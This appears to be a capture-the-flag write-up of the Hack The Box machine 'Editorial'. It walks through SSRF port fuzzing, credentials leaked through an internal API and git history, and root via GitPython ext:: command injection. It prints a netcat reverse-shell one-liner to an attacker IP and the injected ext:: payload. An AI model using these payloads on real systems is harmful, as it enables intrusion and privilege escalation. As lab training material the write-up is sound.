








## ▫️Information

- **Name** : Editorial
- **OS** : Linux
- **Difficulty** : Easy
- **Author** : [Lanz](https://app.hackthebox.com/users/73707)
- **IP address** : `10.10.11.20`


## ▫️Foothold

Let's start with a TCP scan. Here, we'll use **RustScan** : 
```bash
rustscan -a 10.10.11.20 -r 1-65535 -- -A -oN nmap.txt
```

There are two open ports: 
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0dedb29ce253fbd4c8c1196e7580d864 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0fb9a7510e00d57b5b7c5fbf2bed53a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (97%), HP P2000 G3 NAS device (95%), Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 5.3 - 5.4 (95%), Linux 5.4 (95%), Linux 3.1 (94%), Linux 3.2 (94%), Linux 2.6.32 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   14.80 ms 10.10.14.1
2   15.07 ms 10.10.11.20
```

Add ``editorial.htb`` in the `/etc/hosts` file.

Open a web browser and go to : ``http://editorial.htb``. 
Explore the website. There is an upload page : 


*Preview* looks interesting. Open **BurpSuite** and intercept the request : 



Server accepts links. So, we can try to exploit SSRF.

### SSRF 

**What is SSRF ?**

> Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.
{: .prompt-info }

> In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials.
{: .prompt-info }

*Source* : [BurpSuite](https://portswigger.net/web-security/ssrf)

Here, we can change the URL to ``http://localhost:$PORT`` to see if other services are running.

**Look at the difference between the two requests :**

Asking a closed service : 


The ``Content Length `` field equals ``61``.

Asking an open service (my python web server): 


The ``Content Length `` field equals ``51``.

To enumerate faster, we'll use **Ffuf**. Save the request like this : 
```bash
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------38154992246133333424280107185
Content-Length: 365
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------38154992246133333424280107185
Content-Disposition: form-data; name="bookurl"

http://localhost:FUZZ/
-----------------------------38154992246133333424280107185
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------38154992246133333424280107185--
```

Then, use the following syntax : 
```bash
ffuf -request request.txt -request-proto http -w wd.txt -fs 61 -o results.txt
```

- ``-request`` : The request file.
- ``-w`` : Wordlist contains numbers 1 to 65535.
- ``-fs`` : Filter size response (remember the ``Content Length`` field).

The result : 
```bash
5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 297ms]
```


### Interact with port 5000

We know that a port 5000 is running locally on the server. So, use this link in the form : ``http://localhost:5000/`` and intercept the request :



Copy/paste the highlighted link and use *cURL* to show the content : 
```bash
curl 'http://editorial.htb/static/uploads/f0ba1f7c-0aa3-42cf-852a-57e4c8644dd4'
```

We have the following content : 
```json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

As you can see, there are new links. So, check each one to get something.

The `/api/latest/metadata/messages/authors` endpoint is interesting. Like the previous step, intercept and use *cURL* : 

```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

Nice ! We have the following credentials : `dev:dev080217_devAPI!@`.

## ▫️User Flag

Use this credentials to connect through **SSH**. Look in the home directory : 

```bash
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
dev@editorial:~$ ls -l
total 8
drwxrwxr-x 3 dev  dev 4096 Jun  5 14:36 apps
-rw-r----- 1 root dev   33 Jul  3 19:11 user.txt
dev@editorial:~$ cat user.txt 
1503145cc8399fff-997e0a8199eedc
dev@editorial:~$
```

We have the first flag !

There is another user on the box : 

```bash
dev@editorial:~$ ls -la /home
total 16
drwxr-xr-x  4 root root 4096 Jun  5 14:36 .
drwxr-xr-x 18 root root 4096 Jun  5 14:54 ..
drwxr-x---  4 dev  dev  4096 Jun  5 14:36 dev
drwxr-x---  5 prod prod 4096 Jun  5 14:36 prod
dev@editorial:~$
```

First, go in the `apps` folder and we can see a `.git` folder : 
```bash
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 4 dev dev 4096 Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
dev@editorial:~/apps$
```

Check commits with `git log` and this one looks interesting : 
```bash
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

```

View the last modification with `git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` : 

```bash
template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't
```

We have another password : ``prod:080217_Producti0n_2023!@``.

Login with **SSH**.



## ▫️Root Flag

Run `sudo -l` to check permissions : 
```bash
prod@editorial:~$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3
/opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:~$
```

A python script can be executed as root. Before execute it, we can show its content : 
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

The last line seems to be vulnerable. Search on *Google* for `python git clone exploit` and we have the following result : 


The POC can be found [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858). Our python script need an argument, which is the link to clone, but here, we'll inject the malicious payload : `ext::sh -c touch% /tmp/proof.txt



To get a reverse shell, we can create a malicious bash script : 
```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.167 1337 >/tmp/f
```

And execute it : 
```bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::bash /tmp/MyMaliciousFile'
```

On listener : 




We are root ! 

## ▫️ Conclusion

Nice box !